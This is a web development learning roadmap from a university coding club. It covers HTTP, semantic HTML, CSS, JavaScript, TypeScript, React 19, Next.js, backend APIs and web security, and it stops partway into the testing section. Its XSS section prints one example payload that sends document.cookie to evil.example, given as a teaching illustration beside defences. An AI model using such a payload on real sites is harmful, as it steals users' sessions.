

+++
title = "Web Development Roadmap"
weight = 1
description = "A comprehensive, practical guide to mastering modern web development: the web platform, HTML, CSS, and JavaScript fundamentals, TypeScript, React 19, Next.js, full-stack backend engineering, security, testing, performance, and production deployment."

[extra]
difficulty = "Beginner to Advanced"
estimated_time = "Ongoing Practice (4-6 months for core foundation)"
prerequisites = "Basic computer literacy; no prior programming experience required"
badge = "FULL-STACK"
toc_expand = true

# Landing page carousel
carousel_image = "roadmaps/web-development-cyber.webp"
carousel_title = "Web Development"
carousel_description = "Master modern web development end-to-end: the web platform, HTML, CSS, JavaScript, TypeScript, React 19, Next.js, backend engineering, security, testing, performance, and production deployment."
+++

The web is the largest software platform ever created. Every product you interact with daily—social feeds, banking portals, dashboards, design tools like Figma, and document editors like Google Docs—is a web application running on standards maintained by the World Wide Web Consortium and shipped by every browser on Earth.

For college students, web development offers the fastest feedback loop in software engineering: you write code, refresh the browser, and see the result instantly. It is also the most employable specialization in the industry—every organization needs web presence, and the skills transfer directly into mobile development with React Native and desktop development with Electron and Tauri.

However, web development in 2026 is dramatically different from the tutorials of 2018. Modern engineering is **TypeScript-first**, built around **React 19** and meta-frameworks like **Next.js**, styled with **Tailwind CSS v4**, bundled by **Vite**, tested with **Vitest** and **Playwright**, secured against XSS and CSRF by design, and deployed on edge platforms with CI/CD pipelines.

This roadmap is designed by the **Computer Coding Club (CC), MNNIT Allahabad** to guide you from your first HTML tag to architecting, testing, securing, and deploying production-grade full-stack web applications.

---

## 1. Orientation: The Modern Web Landscape

Before writing code, you must understand how the web platform works, how modern applications are rendered, and which specialization paths exist.

### 1.1 How the Web Works



* **The Client**: The browser—your rendering engine (Blink, Gecko, WebKit), JavaScript runtime, and UI. Modern browsers expose standardized APIs (DOM, Fetch, WebGL, WebAssembly) that work identically across platforms.
* **The Server**: Where application logic, databases, and business rules live. It responds to HTTP requests with documents (traditional sites) or JSON data (modern applications).
* **HTTP/HTTPS**: The request-response protocol of the web. Modern web traffic is exclusively **HTTPS** (TLS-encrypted), HTTP/2 or HTTP/3 multiplexed, and cached aggressively at CDN edges.

### 1.2 The HTTP Request Lifecycle in Detail

Understanding what one "page load" actually triggers is the foundation of everything that follows:


graph TD
    URL["User enters a URL"] --> DNS["DNS Resolution<br/>(domain to IP address)"]
    DNS --> TCP["TCP Handshake + TLS Negotiation<br/>(secure channel established)"]
    TCP --> Request["HTTP Request Sent<br/>(method, path, headers, cookies)"]
    Request --> Server["Server / CDN Processing<br/>(cache hit? application logic? database?)"]
    Server --> Response["HTTP Response<br/>(status code, headers, body)"]
    Response --> Parse["Browser Parses HTML<br/>(discovers CSS, JS, images)"]
    Parse --> Render["Render Tree Built<br/>(layout, paint, composite)"]
    Render --> Assets["Sub-resource Requests<br/>(parallel asset downloads)"]
    Assets --> Interact["Page Interactive<br/>(JS executes, event listeners bound)"]


Every layer of this pipeline has a tuning knob you will learn: DNS prefetching, TLS session resumption, cache headers, compression, asset prioritization, and render-blocking resource elimination.

#### The HTTP Methods You Will Actually Use

| Method | Purpose | Idempotent? | Typical Use |
| :--- | :--- | :--- | :--- |
| **`GET`** | Retrieve a resource | Yes | Loading pages, fetching JSON |
| **`POST`** | Create a resource / submit data | No | Form submissions, creating records |
| **`PUT`** | Replace a resource entirely | Yes | Full profile updates |
| **`PATCH`** | Modify part of a resource | No | Toggling one field |
| **`DELETE`** | Remove a resource | Yes | Deleting a note or account |

#### Status Codes Worth Memorizing

* **200** OK · **201** Created · **204** No Content — success family.
* **301/308** Permanent redirect · **304** Not Modified (cache!) — redirection and caching.
* **400** Bad Request · **401** Unauthorized · **403** Forbidden · **404** Not Found · **422** Unprocessable — client errors.
* **500** Internal Server Error · **502/504** Gateway issues — server errors (your bug, or your infrastructure's).

### 1.3 The Three Specializations

| Specialization | Focus | Core Technologies |
| :--- | :--- | :--- |
| **Frontend** | Everything the user sees and interacts with: layouts, interactivity, accessibility, performance | HTML, CSS, JavaScript, TypeScript, React, Next.js |
| **Backend** | Application logic, APIs, authentication, databases, integrations | Node.js (or Python/Go/Java), Express/Hono, PostgreSQL, Redis |
| **Full-Stack** | End-to-end product engineering across both layers | All of the above, plus deployment and DevOps basics |


**The 2026 Reality**: The line between frontend and backend is blurring. Meta-frameworks like Next.js render React components **on the server** (React Server Components), and platforms like Cloudflare Workers run JavaScript at CDN edge locations. Modern full-stack developers understand the entire request lifecycle.


### 1.4 Rendering Strategies: The Most Important Modern Distinction

Where and when your HTML is generated defines your application's performance profile:


graph TD
    Render["Rendering Strategy"] --> CSR["CSR — Client-Side Rendering<br/>Browser downloads an empty shell + JS bundle,<br/>then renders everything locally"]
    Render --> SSR["SSR — Server-Side Rendering<br/>Server generates full HTML per request"]
    Render --> SSG["SSG — Static Site Generation<br/>HTML pre-built at deploy time"]
    Render --> ISR["ISR — Incremental Static Regeneration<br/>Static pages refreshed in the background"]


* **CSR**: Ideal for highly interactive dashboards and tools (like Figma). Slower first paint, fastest subsequent interactions.
* **SSR**: Ideal for dynamic, personalized pages. Fast first paint, server load per request.
* **SSG**: Ideal for blogs, marketing sites, documentation. Fastest possible delivery from a CDN.
* **ISR**: Combines SSG speed with periodic freshness — the default choice for e-commerce and content sites.

Modern meta-frameworks (Next.js, Astro) let you **mix these strategies per route** — a marketing page can be static while the dashboard behind it renders client-side.

### 1.5 Where Are You Starting From?


graph TD
    Start["Your Starting Point"] --> T1["Track A: Complete Beginner"]
    Start --> T2["Track B: Some HTML/CSS Exposure"]
    Start --> T3["Track C: Developer in Another Language (Python / Java / C++)"]
    Start --> T4["Track D: Mobile Developer (React Native)"]

    T1 --> R1["Master HTML, CSS, and JavaScript fundamentals first — do not skip to frameworks"]
    T2 --> R2["Close the gap: responsive layout, accessibility, then deep JavaScript"]
    T3 --> R3["Map your language skills to TypeScript and learn the DOM/browser model"]
    T4 --> R4["Learn the web DOM layer under React Native; then Next.js for full-stack web"]

    R1 --> Core["Core Milestone: Deploy a responsive, accessible static site"]
    R2 --> Core
    R3 --> Core
    R4 --> Core


* **Track A (Complete Beginners)**: This roadmap is your starting point. Follow the stages in order — Stage 1 exists precisely so that frameworks make sense later instead of feeling like magic.
* **Track B (Some HTML/CSS Exposure)**: Skim Stage 1, but do not skip modern CSS (Grid, container queries) or the JavaScript fundamentals — most self-taught students have fragile JS foundations that collapse the moment frameworks arrive.
* **Track C (Developers from other languages)**: Your programming fundamentals transfer directly. Focus on Stage 2's browser-specific concepts (DOM, event loop, async browser APIs) and TypeScript's structural typing.
* **Track D (React Native developers)**: You already know React — the components, hooks, and state flow are identical. Learn the DOM, CSS layout in depth, and Stage 8's server-side patterns to become full-stack.

---

## 2. Stage 1: Semantic HTML — Structure With Meaning

HTML is not formatting — it is a document **semantics** layer that browsers, search engines, and screen readers all interpret. Frameworks come and go; HTML is permanent.

### 2.1 Document Structure & Landmarks

* **Semantic landmarks**: `header`, `nav`, `main`, `article`, `section`, `aside`, `footer` — assistive technology navigates by these landmarks, and search engines weight content inside them. Anonymous `<div>` soup destroys this map.
* **Headings are an outline**: One `h1` per page, hierarchical `h2`→`h3` nesting without skipping levels. Screen reader users literally traverse pages by heading level.
* **Forms & Inputs**: `form`, `input` types (`email`, `number`, `date`), `label` association via `for`/`id`, native validation attributes (`required`, `pattern`, `min`/`max`), and `fieldset`/`legend` for grouping.
* **Media & Embeds**: `img` with meaningful `alt` text, `loading="lazy"` for below-fold images, responsive images via `srcset`/`sizes`, `video`/`audio` with captions.
* **Metadata**: `<title>`, meta descriptions, Open Graph tags for social sharing, and `<link rel="icon">`.

### 2.2 Accessibility Is a Property of Correct HTML


**Why Semantic HTML Matters**: Screen readers announce a `<button>` as "button, clickable" and give it keyboard activation for free. A `<div>` styled to look like a button is invisible to assistive technology and breaks keyboard navigation. Accessibility is not a feature you add later — it is a property of correct HTML.


* Every interactive element reachable by keyboard; visible focus states never removed without replacement.
* Meaningful `alt` text (decorative images get `alt=""` so screen readers skip them).
* `aria-label`/`aria-expanded`/`aria-live` only where native semantics fall short — ARIA is a patch layer, not a foundation.

---

## 3. Stage 2: Modern CSS — Layout, Architecture & Responsive Design

### 3.1 The Cascade, Specificity & The Box Model

Ninety percent of "why isn't my style applying?" is one of these three:

| Selector | Specificity Weight | Example |
| :--- | :--- | :--- |
| Inline `style` attribute | Highest (avoid in practice) | `style="color: red"` |
| ID | 100 | `#submit-btn` |
| Class / pseudo-class / attribute | 10 | `.card`, `:hover`, `[type="email"]` |
| Element / pseudo-element | 1 | `p`, `::before` |
| Universal `*` / inherited | 0 | `*`, inherited font styles |

* **The box model**: `content` + `padding` + `border` + `margin`. Every modern project starts with `box-sizing: border-box` so widths behave intuitively.
* **Margin collapse** and **stacking contexts** (`z-index` only works within the same stacking context) round out the classic confusion trio.

### 3.2 Flexbox & Grid: The Two Layout Systems

* **Flexbox** — one-dimensional layout: navigation bars, card rows, centering. Key properties: `justify-content` (main axis), `align-items` (cross axis), `gap`, `flex: 1` for proportional growth.
* **Grid** — two-dimensional layout: page shells, dashboards, media objects. Key properties: `grid-template-columns`, `gap`, `repeat(auto-fit, minmax(240px, 1fr))` for responsive card grids with zero media queries.
* **Decision rule**: If content flows in one direction, use Flexbox. If you are placing items in rows *and* columns, use Grid.

### 3.3 Responsive Design & Modern Capabilities

* **Mobile-first media queries**: Write the mobile layout, then add `@media (min-width: ...)` enhancements.
* **Fluid typography and spacing**: `clamp(1rem, 2.5vw, 1.5rem)` removes breakpoint jumping.
* **Container queries**: Components that respond to *their container's* width, not the viewport — the modern standard for reusable card and widget components.
* **Custom properties (design tokens)**: `--color-primary`, `--space-4`, `--font-heading` — theming, dark mode via `prefers-color-scheme`, and consistent design systems all hang off tokens.
* **Modern capabilities worth knowing**: Cascade layers (`@layer`), the `:has()` parent selector, `aspect-ratio`, logical properties (`margin-inline`), `text-wrap: balance`, and `color-mix()`.

---

## 4. Stage 3: Modern JavaScript — The Language of the Browser

Frameworks come and go; a weak JavaScript foundation is the single most common cause of "I can follow tutorials but can't build anything myself."

### 4.1 Core Language Features You Will Use Daily

* **Variables & immutability**: `const` by default, `let` when reassignment is required; `var` is legacy.
* **Functions**: Arrow functions (lexical `this`), default/rest parameters, destructuring (`const { title, stars = 0 } = repo`).
* **Collections**: `map`, `filter`, `reduce`, `find`, `some`/`every`, `Set` and `Map` for uniqueness and keyed lookups.
* **Modules**: `import`/`export` — the browser's native module system and the foundation of all bundling.
* **Modern operators**: Optional chaining (`user?.profile?.avatar`), nullish coalescing (`count ?? 0`), spread/rest (`[...items, newItem]`).

### 4.2 The Event Loop: Why JavaScript Feels Different


**The Event Loop Is Why JavaScript Feels Different**: JavaScript runs on a single thread. Long-running synchronous work blocks all rendering and interaction — the reason `async`/`await` exists. If you internalize the event loop now, React's concurrent rendering and Node.js's non-blocking I/O will both feel obvious later.


* The call stack runs synchronous code; when it empties, the event loop pulls queued callbacks (timers, network responses, DOM events) onto the stack.
* **Microtasks** (Promise callbacks) run before the next macrotask — this ordering explains subtle timing bugs.

### 4.3 Asynchronous JavaScript: Promises & `async`/`await`

```javascript
// 1. Fetch with proper error handling — the pattern behind every framework's data layer
async function loadContributors(org) {
  try {
    const response = await fetch(`https://api.github.com/orgs/${org}/repos`, {
      headers: { Accept: 'application/vnd.github+json' },
    });

    if (!response.ok) {
      // fetch does NOT reject on HTTP errors — you must check response.ok yourself
      throw new Error(`GitHub API responded ${response.status}`);
    }

    const repositories = await response.json();
    return repositories.map((repo) => ({
      name: repo.name,
      stars: repo.stargazers_count,
      language: repo.language ?? 'Unknown',
    }));
  } catch (error) {
    console.error('Failed to load repositories:', error.message);
    return [];
  }
}

// 2. Concurrent requests — Promise.all runs them in parallel, not sequentially
const [repos, events] = await Promise.all([
  loadContributors('CC-MNNIT'),
  fetchUserEvents('cc-club-bot'),
]);
```

* **`fetch` does not throw on HTTP error statuses** — checking `response.ok` is your responsibility. This is the most common beginner data-fetching bug in the entire ecosystem.
* **Sequential vs concurrent `await`**: Two awaited calls in a row run one-after-the-other; `Promise.all` runs them simultaneously. In hot paths, this distinction is free performance.

### 4.4 The DOM, Events & Browser Storage

* **DOM manipulation**: `querySelector`/`querySelectorAll`, `createElement`, `classList` (never hand-built `innerHTML` strings with user data — see the security stage).
* **Event handling**: `addEventListener`, event delegation (one listener on a parent handling many children), and `event.preventDefault()`.
* **Debouncing & throttling**: Limiting how often expensive handlers run (search inputs, scroll listeners).

| Storage Mechanism | Capacity | Lifespan | Sent to Server? | Best For |
| :--- | :--- | :--- | :--- | :--- |
| **`localStorage`** | ~5 MB | Forever (until cleared) | No | Theme preferences, UI state |
| **`sessionStorage`** | ~5 MB | Current tab session | No | Multi-step form state |
| **Cookies** | ~4 KB | Configurable expiry | Yes (every request) | Session identifiers (HTTP-only, Secure) |
| **IndexedDB** | Large | Forever | No | Offline-first application data |

### 4.5 Browser Developer Tools: Your Primary Instrument

Learn Chrome/Firefox DevTools deeply — they are your diagnostic microscope:
* **Elements panel**: Live DOM inspection, CSS editing, box-model visualization.
* **Console**: Logging, error stack traces, and API experimentation.
* **Network panel**: Request inspection, payloads, headers, timing waterfalls, cache behavior.
* **Sources & Breakpoints**: Real debugging — breakpoints and watch expressions, not `console.log` archaeology.
* **Lighthouse**: Automated audits for performance, accessibility, best practices, and SEO.

---

## 5. Stage 4: TypeScript — The Industry Standard

Every serious web codebase in 2026 is written in TypeScript. It is JavaScript with a compile-time type system that catches bugs before the browser ever runs your code.

### 5.1 Essential TypeScript for Web Development

```typescript
// 1. Typing data from APIs — model your server responses explicitly
interface Contributor {
  id: number;
  username: string;
  contributionsCount: number;
  avatarUrl?: string; // optional property
}

// 2. Discriminated unions for state — impossible in plain JavaScript
type RequestState<T> =
  | { status: 'idle' }
  | { status: 'loading' }
  | { status: 'success'; data: T }
  | { status: 'error'; message: string };

// 3. Narrowing: TypeScript tracks which case you are in
function renderState(state: RequestState<Contributor[]>): string {
  switch (state.status) {
    case 'idle': return 'Start exploring';
    case 'loading': return 'Loading...';
    case 'success': return `Found ${state.data.length} contributors`;
    case 'error': return state.message;
  }
}

// 4. Utility types for everyday transformations
type ContributorDraft = Omit<Contributor, 'id'>;
type ContributorPreview = Pick<Contributor, 'id' | 'username' | 'avatarUrl'>;
```

### 5.2 Generics: Type-Safe Reusability

```typescript
// A generic API wrapper — the caller decides the response shape
async function apiGet<T>(url: string): Promise<T> {
  const response = await fetch(url, { headers: { Accept: 'application/json' } });
  if (!response.ok) throw new Error(`Request failed: ${response.status}`);
  return (await response.json()) as T;
}

// Usage: the return value is fully typed, no `as` casting at call sites
const projects = await apiGet<ProjectSummary[]>('/api/projects');
const settings = await apiGet<AppSettings>('/api/settings');
```

* **Configuration**: Start projects with strict mode (`"strict": true` in `tsconfig.json`) — it is harder for two weeks and dramatically better forever.
* **Structural Typing**: TypeScript compares shapes, not names — different from Java/C# nominal typing.
* **`unknown` over `any`**: `any` disables the type system entirely; `unknown` forces you to validate before use — the correct type for untrusted API data.

---

## 6. Stage 5: Modern Tooling & Project Workflow

Professional web development is tooling-heavy. Understanding *why* each tool exists prevents "black box configuration" syndrome.

### 6.1 Node.js, Package Management & Vite

* **Node.js LTS**: The runtime for your tooling and backend. Always use the current LTS release.
* **Package managers**: `npm` (bundled), `pnpm` (faster, content-addressed disk store), semantic versioning (`^4.0.0` = compatible minor updates) and `package-lock.json` committed to Git.
* **Vite — The Default Build Tool**: Instant dev server with native ES module hot replacement, and optimized production builds via Rollup. Every non-meta-framework React project in 2026 starts with `npm create vite@latest`.
* **Environment variables**: Frontend code can only see variables prefixed `VITE_` (`import.meta.env.VITE_API_URL`) — everything else stays server-side. Never put secrets in frontend env files; they ship to every visitor.

### 6.2 Code Quality Gates

* **ESLint** for linting (with typescript-eslint and react hooks rules) and **Prettier** for formatting — or **Biome**, the modern Rust-based all-in-one. Run both in CI; never argue about formatting in reviews again.
* **Git discipline**: Feature branches, meaningful commit messages, pull requests with reviews — see the [Open Source Contribution Roadmap](@/roadmaps/open-source.md) for the complete collaboration workflow.
* **Dependency hygiene**: `npm audit` in CI, automated Dependabot/Renovate update PRs, and locking your lockfile.

---

## 7. Stage 6: React 19 — The Component Model

React is the most widely used frontend framework in the world, the foundation of React Native, and the ecosystem your CC peers build on. Learn it deeply once and it transfers everywhere.

### 7.1 Components, Props & State

```tsx
import { useState } from 'react';

interface ProjectCardProps {
  title: string;
  stars: number;
  isPinned: boolean;
  onTogglePin: () => void;
}

export function ProjectCard({ title, stars, isPinned, onTogglePin }: ProjectCardProps) {
  return (
    <article className="project-card">
      <h3>{title}</h3>
      <p>⭐ {stars} stars</p>
      <button onClick={onTogglePin}>
        {isPinned ? 'Unpin' : 'Pin to top'}
      </button>
    </article>
  );
}
```

* **Declarative UI**: You describe what the UI should look like for any given state; React computes the DOM updates through **reconciliation** — diffing the new element tree against the previous one and applying the minimal patch.
* **Props flow down, events flow up** — the unidirectional data flow that React Native, Vue, and SwiftUI all replicate.
* **Keys on lists**: Stable, unique `key` props (`key={repo.id}`) let React match items across renders; index keys silently corrupt state when lists reorder.
* **Composition over inheritance**: Small components composed into larger ones; custom hooks extract shared logic.

### 7.2 The Hooks You Will Actually Use

| Hook | Purpose | Classic Pitfall It Prevents |
| :--- | :--- | :--- |
| **`useState`** | Local component state | — |
| **`useEffect`** | Synchronize with external systems (network, timers, subscriptions) | Missing cleanup → memory leaks |
| **`useMemo`** | Cache expensive computations | Recomputing on every render |
| **`useCallback`** | Stable function identities for child props | Breaking `React.memo` on children |
| **`useRef`** | Mutable values that persist without re-rendering; DOM access | Using state for values the UI never displays |
| **`useContext`** | Cross-tree data without prop drilling | Overuse → hidden dependencies (prefer composition) |


**The `useEffect` Litmus Test**: Effects synchronize with *external* systems — fetching, subscriptions, timers, DOM APIs. If your effect only transforms state to derive other state, you do not need it: derive during render instead. Fighting this rule produces the "infinite effect loop" that plagues every beginner's first data-fetching component.


### 7.3 Forms & Actions (New in React 19)

```tsx
import { useActionState } from 'react';

async function subscribeAction(previousState, formData) {
  const email = formData.get('email');
  const response = await fetch('/api/subscribe', {
    method: 'POST',
    body: JSON.stringify({ email }),
    headers: { 'Content-Type': 'application/json' },
  });
  if (!response.ok) return { error: 'Subscription failed. Try again.' };
  return { success: true };
}

export function SubscribeForm() {
  const [state, formAction, isPending] = useActionState(subscribeAction, {});
  return (
    <form action={formAction}>
      <input type="email" name="email" required placeholder="you@cc-club.in" />
      <button disabled={isPending}>
        {isPending ? 'Subscribing…' : 'Subscribe'}
      </button>
      {state.error && <p role="alert">{state.error}</p>}
    </form>
  );
}
```

* **Actions** give forms pending states, optimistic updates, and error handling as first-class framework features — replacing the manual `isSubmitting` boilerplate every pre-19 codebase hand-rolled.

### 7.4 Data Fetching: TanStack Query

Manual `useEffect` + `fetch` + loading flags is boilerplate-prone. **TanStack Query** is the industry standard for server state:

```tsx
import { useQuery } from '@tanstack/react-query';

export function ContributorList() {
  const { data, isLoading, isError, error, refetch, isRefetching } = useQuery({
    queryKey: ['contributors'],
    queryFn: () => fetch('/api/contributors').then((res) => {
      if (!res.ok) throw new Error('Failed to load contributors');
      return res.json() as Promise<Contributor[]>;
    }),
    staleTime: 1000 * 60 * 5,
  });

  if (isLoading) return <p>Loading contributors…</p>;
  if (isError) return <p role="alert">Error: {error.message}</p>;

  return (
    <ul>
      {data.map((contributor) => (
        <li key={contributor.id}>{contributor.username}</li>
      ))}
    </ul>
  );
}
```

* Caching, background refetching, request deduplication, and retry policies — solved once, industry-wide.
* The identical pattern powers the React Native roadmap's data layer, so learning it here transfers directly.

### 7.5 Client State: Zustand

For global client state (theme, session, UI preferences), **Zustand** is the lightweight modern standard — the same library the React Native roadmap recommends:

```typescript
import { create } from 'zustand';
import { persist, createJSONStorage } from 'zustand/middleware';

interface ThemeState {
  themeMode: 'dark' | 'light' | 'system';
  setThemeMode: (mode: 'dark' | 'light' | 'system') => void;
}

export const useTheme = create<ThemeState>()(
  persist(
    (set) => ({
      themeMode: 'system',
      setThemeMode: (mode) => set({ themeMode: mode }),
    }),
    { name: 'cc-theme', storage: createJSONStorage(() => localStorage) }
  )
);
```

### 7.6 Know the Alternatives



| Framework | Philosophy | When It Shines |
| :--- | :--- | :--- |
| **React 19** | Declarative components, massive ecosystem | Default choice: jobs, ecosystem, React Native transfer |
| **Vue 3 / Nuxt** | Progressive framework, gentle learning curve | Excellent DX; strong in Asia and enterprise |
| **Svelte 5** | Compile-time reactivity ("runes"), minimal runtime | Small bundles, elegant reactivity |
| **Astro 5** | Islands architecture, zero JS by default | Content sites, marketing pages, documentation |
| **Solid** | Fine-grained signals, no virtual DOM | Performance enthusiasts |

Learn React first — the component model transfers to all of them, and the job market overwhelmingly demands React.


---

## 8. Stage 7: Styling Systems in 2026

* **Tailwind CSS v4**: The utility-first standard. Version 4 rebuilt the engine in Rust (**Oxide**) with CSS-first configuration — theme tokens live in your stylesheet via `@theme`, no `tailwind.config.js` needed for most projects:

```css
/* app.css — Tailwind v4 CSS-first configuration */
@import "tailwindcss";

@theme {
  --color-brand: #e67e22;
  --color-brand-dark: #b3541a;
  --font-display: "Inter", sans-serif;
  --radius-card: 1rem;
}
```

```tsx
// Tokens become utilities automatically — no config file, no rebuild magic
<article className="rounded-card border border-gray-500/20 bg-white p-6 dark:bg-gray-900">
  <h3 className="font-display text-lg font-bold text-brand">CC Pulse</h3>
</article>
```

* **When Tailwind, when CSS Modules**: Tailwind for application UI velocity and consistency; CSS Modules or vanilla CSS for component libraries and highly custom designs.
* **Dark mode**: The `dark:` variant keyed off a `dark` class (toggled by your theme store) plus `prefers-color-scheme` as the default — the exact pattern the CC website itself uses.
* **Design Systems Thinking**: Learn spacing scales, color tokens, and typography scales — components built from tokens stay consistent as the app grows.
* **Component Libraries**: shadcn/ui (Tailwind + React, copy-paste components you own) is the current default for production dashboards; use it to learn composition rather than fighting prebuilt themes.

---

## 9. Stage 8: Next.js & The Meta-Framework Layer

A meta-framework wraps React with routing, server rendering, and deployment conventions. **Next.js** is the industry default.

### 9.1 The App Router & React Server Components


graph TD
    Request["Incoming Request"] --> Router["App Router (file-based routes in app/)"]
    Router --> RSC["React Server Components<br/>Render on server, zero client JS cost"]
    Router --> ClientComps["Client Components ('use client')<br/>Interactive UI: forms, buttons, charts"]
    RSC --> HTML["Streamed HTML Response"]
    ClientComps --> Hydrate["Hydration on the client"]


* **Server Components** render on the server and can fetch data directly — no client-side fetch waterfall, no API round-trip for the initial view:

```tsx
// app/projects/page.tsx — a Server Component: async data fetching, no useEffect
import { db } from '@/lib/database';

export default async function ProjectsPage() {
  const projects = await db.project.findMany({ orderBy: { stars: 'desc' } });

  return (
    <main>
      <h1>CC Projects</h1>
      {projects.map((project) => (
        <ProjectCard key={project.id} project={project} />
      ))}
    </main>
  );
}
```

* **Client Components** (marked `'use client'`) handle interactivity; the two compose freely — a server component renders the page shell, client components provide the interactive islands.
* **File conventions**: `page.tsx` (routes), `layout.tsx` (shared shells), `loading.tsx` (suspense fallbacks), `error.tsx` (error boundaries), `route.ts` (API endpoints).

```text
app/
├── layout.tsx            # Root layout: theme provider, navigation shell
├── page.tsx              # Home route (/)
├── projects/
│   ├── page.tsx          # /projects (Server Component list)
│   └── [id]/page.tsx     # /projects/123 (dynamic segment)
├── api/
│   └── projects/route.ts # REST endpoint: GET, POST /api/projects
├── loading.tsx           # Route-level suspense fallback
└── error.tsx             # Route-level error boundary
```

### 9.2 Choosing Rendering Per Route

* Marketing pages and documentation → **SSG/ISR** (fastest, CDN-cached).
* Personalized dashboards → **SSR or CSR** depending on interactivity.
* Use `next/image` for automatic image optimization (formats, sizing, lazy loading) and `next/font` for self-hosted fonts with zero layout shift — both eliminate entire classes of performance bugs.
* **Metadata & SEO**: Export `metadata` from layouts and pages — titles, descriptions, and Open Graph tags become type-checked code:

```tsx
export const metadata = {
  title: 'CC Projects — Computer Coding Club',
  description: 'Explore open-source projects built by CC MNNIT students.',
  openGraph: { images: ['/og/projects-banner.png'] },
};
```


**The Modern Default**: An interactive SPA (Vite + React Router + TanStack Query) for app-like products, or Next.js for content-heavy and hybrid products. Choose deliberately per project — neither is universally superior.


---

## 10. Stage 9: Backend Engineering for Web Developers

Frontend skills make you employable; full-stack skills make you dangerous. Every web developer should be able to build the server their UI talks to.

### 10.1 Node.js & The Server-Side Event Loop

Node.js runs JavaScript outside the browser using the same V8 engine and non-blocking event loop. The current LTS release is the right choice for all new projects.

* **HTTP servers**: Start with **Express** (timeless, minimal) or **Hono** (modern, TypeScript-first, runs everywhere including edge runtimes).
* **The non-blocking model you already know**: The browser event loop from Stage 3 *is* the Node.js model — a single JavaScript thread delegating I/O to the platform. Heavy CPU work gets offloaded to worker threads, exactly like browser code offloads to Web Workers.

### 10.2 Designing a REST API

```typescript
// routes/projects.ts — Express-style routes with validation
import { Router } from 'express';
import { z } from 'zod';

const createProjectSchema = z.object({
  title: z.string().min(3).max(80),
  description: z.string().max(500).optional(),
  repositoryUrl: z.string().url(),
});

const router = Router();

router.get('/projects', async (_req, res) => {
  const projects = await db.project.findMany({ orderBy: { stars: 'desc' } });
  res.json(projects);
});

router.post('/projects', async (req, res) => {
  // Validate untrusted input at the boundary — never trust req.body
  const parsed = createProjectSchema.safeParse(req.body);
  if (!parsed.success) {
    return res.status(422).json({ errors: parsed.error.flatten() });
  }
  const project = await db.project.create({ data: parsed.data });
  res.status(201).json(project);
});

export default router;
```

* **Resource-oriented routes**: `GET /projects`, `POST /projects`, `PATCH /projects/:id`, `DELETE /projects/:id` — nouns, not verbs.
* **Validation with Zod**: Parse, don't validate — one schema drives runtime validation *and* the TypeScript type (`z.infer<typeof createProjectSchema>`).
* **Correct status codes**: `201` on creation, `422` on validation failure, `401` when unauthenticated, `403` when unauthorized — clients (and your future self) depend on them.

### 10.3 Databases: PostgreSQL First


graph TD
    App["Backend Application (Node.js)"] --> ORM["ORM / Query Layer (Prisma or Drizzle)"]
    ORM --> DB["PostgreSQL (Relational, Default Choice)"]
    App --> Cache["Redis (Caching, Sessions, Rate Limiting)"]


* **PostgreSQL** is the modern default relational database: structured schemas, joins, transactions, and full-text search.
* **MongoDB** remains a reasonable choice for flexible document models — but do not pick a database because a tutorial did.
* **ORMs**: **Prisma** (schema-first, excellent DX) or **Drizzle** (SQL-like, edge-friendly) — both type-safe, both PostgreSQL-first:

```prisma
// prisma/schema.prisma — schema as versioned code
model Project {
  id            String   @id @default(cuid())
  title         String
  description   String?
  repositoryUrl String
  stars         Int      @default(0)
  owner         User     @relation(fields: [ownerId], references: [id])
  ownerId       String
  createdAt     DateTime @default(now())
  updatedAt     DateTime @updatedAt
}

model User {
  id       String    @id @default(cuid())
  email    String    @unique
  name     String
  projects Project[]
}
```

* **Migrations**: Schema changes are versioned code (`prisma migrate dev`), applied in order, never hand-edited in production.
* **Caching & sessions**: Redis for session storage, rate-limit counters, and expensive query memoization.

### 10.4 Authentication Patterns

* **Session-based auth**: Server sets an HTTP-only cookie; the session lives in a store. Simple and secure for same-domain apps.
* **Token-based auth**: Signed JWTs (short-lived access + long-lived refresh) for APIs consumed by mobile clients or third parties.
* **OAuth providers**: "Sign in with Google/GitHub" via **Auth.js** — never roll your own OAuth flow.
* **Non-negotiables**: Passwords hashed with bcrypt/argon2, never stored plaintext; auth tokens never in `localStorage` when an HTTP-only cookie will do; login endpoints rate-limited from day one.

---

## 11. Stage 10: Web Security — The Non-Negotiable Layer

A web application is attacked from the moment it touches the public internet. Security failures are reputation-destroying and, for student projects, interview-derailing.

### 11.1 XSS — Cross-Site Scripting

The most common web vulnerability: attacker-controlled input rendered as HTML/JS in another user's browser.

* **The vector**: A comment containing `<script>fetch('https://evil.example?c=' + document.cookie)</script>` — if rendered as HTML, it executes in every viewer's session.
* **The defense**: Frameworks escape by default (React never renders raw HTML from strings). The moment you use `dangerouslySetInnerHTML`, sanitize with **DOMPurify**. Never build markup with string concatenation.
* **Content Security Policy (CSP)**: A response header whitelisting script sources, neutralizing injected code even when sanitization fails:

```text
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'; frame-ancestors 'none'
```

### 11.2 CSRF — Cross-Site Request Forgery

An attacker's page makes the victim's browser silently submit a request to your site (the browser attaches cookies automatically).

* **The defense**: SameSite cookies (`SameSite=Lax` or `Strict` — the modern browser default), CSRF tokens on state-changing forms, and rejecting cross-origin mutations via CORS policy.
* **CORS awareness**: CORS does not *protect* your server — it protects users' browsers from reading your responses cross-origin. SameSite cookies plus server-side origin checks are what actually stop CSRF.

### 11.3 Dependency & Supply Chain Hygiene

* Your `node_modules` tree is attacker surface: audit with `npm audit` in CI, automate updates with Dependabot/Renovate, and review transitive-dependency alerts seriously.
* Secrets live in environment variables on the server — never in frontend bundles, never in Git history.


**The Frontend Secret Fallacy**: Anything bundled into client JavaScript — API keys, tokens, "hidden" admin URLs — is public. minification is not obfuscation; every visitor can read your bundle. Client-side secrets are public secrets.


---

## 12. Stage 11: Testing — The Professional Divide

Testing is what separates tutorial projects from production engineering.

| Layer | Tool | What It Verifies |
